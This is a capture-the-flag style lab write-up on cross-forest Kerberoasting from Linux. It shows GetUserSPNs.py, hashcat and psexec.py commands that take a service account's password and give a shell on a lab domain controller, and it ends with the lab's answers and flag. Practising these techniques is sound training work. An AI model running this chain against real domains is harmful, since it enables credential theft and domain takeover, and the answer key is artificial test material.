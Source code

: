 <div align='center'>

# **Lab 25: Attacking Domain Trusts - Cross-Forest Trust Abuse - from Linux** 

</div>

Known Information:

- Cresential: wley:transporter@4
- IP Address of the Domain Controller `FREIGHTLOGISTICS.LOCAL`: 172.16.5.238

## **Cross-Forest Kerberoasting**

**Using GetUserSPNs.py**

```zsh
GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley -outputfile hash_tgt
```

![](../imgs/Lab/Lab25/1.png)

We get the [hash](../docs/sapsso_TGSTicket.txt) for the `sapsso` account.

**Cracking the Hash with Hashcat**

```zsh
hashcat -m 13100 sapsso_TGSTicket.txt /usr/share/wordlists/rockyou.txt --force
```

![](../imgs/Lab/Lab25/2.png)

We get the password for the `sapsso` account: `pabloPICASSO`

**Question**:  Kerberoast across the forest trust from the Linux attack host. Submit the name of another account with an SPN aside from MSSQLsvc.
- **Answer**: sapsso

**Question**: Crack the TGS and submit the cleartext password as your answer.
- **Answer**: pabloPICASSO

**Question**: Log in to the ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL Domain Controller using the Domain Admin account password submitted for question #2 and submit the contents of the flag.txt file on the Administrator desktop.

```zsh
psexec.py FREIGHTLOGISTICS.LOCAL/sapsso@academy-ea-dc03.inlanefreight.local -target-ip 172.16.5.238
```

Password: pabloPICASSO

```powershell
type C:\Users\Administrator\Desktop\flag.txt
```

![](../imgs/Lab/Lab25/3.png)

- **Answer**: burn1ng_d0wn_th3_f0rest!

![](../imgs/Lab/Lab25/4.png)